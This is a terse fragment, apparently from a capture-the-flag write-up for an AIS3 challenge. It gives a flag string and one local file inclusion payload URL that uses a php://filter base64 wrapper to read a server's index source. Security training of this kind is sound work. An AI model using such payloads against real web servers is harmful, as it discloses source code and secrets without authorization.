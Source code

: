 AIS3{Cute_Snoopy_is_back!!?!?!!?}

LFI

https://quiz.ais3.org:23545/?p=php://filter/convert.base64-encode/resource=index